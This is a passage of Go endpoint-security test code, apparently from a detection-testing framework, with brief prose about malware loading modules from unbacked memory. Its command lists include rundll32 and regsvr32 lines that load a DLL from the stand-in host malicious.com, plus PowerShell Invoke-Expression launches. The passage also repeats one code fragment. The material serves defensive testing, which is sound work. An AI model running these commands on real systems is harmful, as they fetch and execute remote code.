 ```go
		"rundll32.exe shell32.dll,ShellExec_RunDLL http://malicious.com/malicious.dll",
		"regsvr32.exe /s /u http://malicious.com/malicious.dll",
	}

	for _, command := range dllLoadingCommands {
		executeCommand(command)
	}
	Endpoint.Stop(101) // UNprotected
}
```

the script detects this advanced evasion technique, where the malware tries to execute code from regions in memory that are not tied to any known executable image. 

### network module loaded from suspicious unbacked memory

the malware's network modules are sometimes loaded from memory regions that aren't backed by any known executable.

```go
func test() {
	executeCommand := func(command string) {
		if !Endpoint.IsAvailable("cmd.exe") {
			Endpoint.Say("[+] command execution is not available")
			Endpoint.Stop(126) // PROTECTED
		}

		out, err := exec.Command("cmd.exe", "/C", command).CombinedOutput()
		if err != nil {
			Endpoint.Say(fmt.Sprintf("[-] failed to execute command: %s", string(out)))
			Endpoint.Stop(1) // ERROR
		}

		Endpoint.Say(fmt.Sprintf("[+] successfully executed command: %s", command))

		if strings.Contains(string(out), "Access Denied") {
			Endpoint.Say("[+] process execution was blocked")
			Endpoint.Stop(126) // PROTECTED
		}
	}

	// simulating process execution
	commands := []string{
		"powershell.exe -Command Invoke-Expression -Command {Start-Process rundll32.exe -ArgumentList 'shell32.dll,Control_RunDLL'}",
		"powershell.exe -Command Invoke-Expression -Command {Start-Process regsvr32.exe -ArgumentList '/s /u shell32.dll'}",
	}

	for _, command := range commands {
		executeCommand(command)
	}

	// DLL loading from suspicious unbacked memory
	dllLoadingCommands := []string{
		"rundll32.exe shell32.dll,ShellExec_RunDLL http://malicious.com/malicious.dll",
		"regsvr32.exe /s /u http://malicious.com/malicious.dll",
	}

	for _, command := range dllLoadingCommands {
		executeCommand(command)
	}

	// exclusion conditions
```